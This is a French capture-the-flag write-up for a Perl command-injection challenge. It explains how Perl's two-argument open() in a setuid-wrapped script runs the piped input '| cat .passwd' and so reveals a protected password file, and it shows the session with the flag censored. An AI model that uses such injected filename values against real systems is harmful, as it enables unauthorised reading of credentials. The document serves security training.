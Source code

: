 # Perl - Command injection

## 15 Points

### Bad tainting

## Énoncé

Récupérez le mot de passe contenu dans le fichier .passwd.

## Solution

Pour ce challenge, on a un fichier **ch27.pl**, dans lequel on retrouve un code perl qui va exécuter un prompt dans lequel il attend le nom d'un fichier pour pouvoir afficherle nombre de ligne, de mot et de caractères.
On retrouve aussi le fichier **setuidwrapper.c**, avec son exécutable, dans lequel cela va d'abord exécuter **setreuid(geteuid(), geteuid())** avant d'exécuter **./ch27.pl** dans l'objectif de pouvoir garder l'EUID au moment de l'exécution du fichier perl.

Dans le fichier perl, on s'apperçoit que pour lire ce qu'on lui envoie, le fichier utilise la fonction **open()**:
```Perl
sub process_file {
    my $file = shift;
    my $line;
    my ($line_count, $char_count, $word_count) = (0,0,0);
 
    $file =~ /(.+)/;
    $file = $1;
    if(!open(F, $file)) {
        die "[-] Can't open $file: $!\n";
    }
 
 
    while(($line = <F>)) {
        $line_count++;
        $char_count += length $line;
        $word_count += scalar(split/\W+/, $line);
    }
 
    print "~~~ Statistics for \"$file\" ~~~\n";
    print "Lines: $line_count\n";
    print "Words: $word_count\n";
    print "Chars: $char_count\n";
 
    close F;
}
```

Or, on sait qu'en perl cette fonction est vulnérable et peut exécuter des commandes, il faut donc trouver un moyen de lui envoyer la commande:
```bash
cat .passwd
```

Pour ceci, avec la recherche la plus simple et rapide, on trouve directement que l'on peut envoyer la commande après un pipe, on va donc faire:
```bash
app-script-ch7@challenge02:~$ ./setuid-wrapper 
*************************
* Stat File Service    *
*************************
>>> | cat .passwd
~~~ Statistics for "| cat .passwd" ~~~
Lines: 0
Words: 0
Chars: 0
[censorship]
>>> exit
```

et le tour est joué !
